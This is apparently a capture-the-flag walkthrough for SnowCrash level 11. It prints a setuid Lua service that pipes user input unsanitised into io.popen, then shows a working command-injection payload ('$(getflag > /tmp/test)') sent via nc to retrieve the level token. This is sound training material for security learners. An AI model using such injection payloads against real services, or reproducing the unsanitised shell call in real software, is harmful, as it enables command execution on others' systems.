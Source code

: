 # SnowCrash Level11 Guide
This guide will walk you through the process of finding the password for the `flag11` user.

## Procedure:

1. **Examine your environment**
   

`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```
We have a .lua script.

2. **Analyze level11.lua**

We don't have lua installed on the VM, so we can't execute it directly.
Though, we can read the content of the file.
```bash
cat level11.lua
```
Returns:  
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
This script has two interesting elements:
- It listens on port 5151.
- It hashes the input and compares it to a hardcoded hash.

3. **Connect to the server**

We can connect to the server using `nc`.
```bash
nc 127.0.0.1 5151
```
Returns
```bash
Password:
```

4. **Exploit the script**

If we look at the hash function, we see that is uses io.popen to execute commands.
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
`pass` is the input we provide.
`sha1sum` is a command that calculates the SHA1 hash of the input.
`io.popen` execute `echo` to provide the input to `sha1sum`.
So, like in previous levels, we can use this to execute commands.

We can use redirection within the password input:
```bash
nc 127.0.0.1 5151
Password: $(getflag > /tmp/test)
Erf nope..
```
We can now try to cat the `/tmp/test` file:
```bash
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Use this token to log as the next user.